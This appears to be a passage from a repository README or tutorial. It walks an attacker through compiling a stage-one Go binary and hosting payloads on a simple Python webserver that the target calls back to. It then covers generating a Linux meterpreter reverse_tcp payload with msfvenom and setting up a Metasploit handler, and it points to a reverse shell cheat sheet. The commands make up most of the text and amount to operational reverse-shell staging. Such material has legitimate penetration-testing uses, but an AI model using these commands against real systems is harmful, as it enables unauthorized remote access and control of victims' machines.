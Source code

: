 To obtain the binary, the attacker can pull the code from [here](stage1.go) and compile it into a binary using the command: 

```bash
go build stage1.go
```

The afforementioned webserver does not have to be anything fancy or intricate, a simple Python webserver will suffice. The purpose of this server is to have a location the target can reach back out to and pull down the scripts and binaries referenced in the attack. An easy way to spin up a webserver is:

```bash
python3 -m http.server <port_number>
```

The shell script is up to the attacker to choose. For beginners, a meterpreter payload may be a good option as it is stable and does not require much knowledge to produce. For more advanced users, a good place to find reverse shell commands is `Pentest Monkey's Reverse Shell Cheat Sheet`, or you can craft your own! The command to produce a meterpreter payload for this machine is as follows:

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<yourIP> LPORT=<aPort> -f elf > <shell_binary_name>
```

To setup the listener in `Metasploit` run the following commands:

```bash

use exploit/multi/handler
set LHOST <yourIP>
set LPORT <aPort>
set PAYLOAD linux/x86/meterpreter/reverse_tcp
```

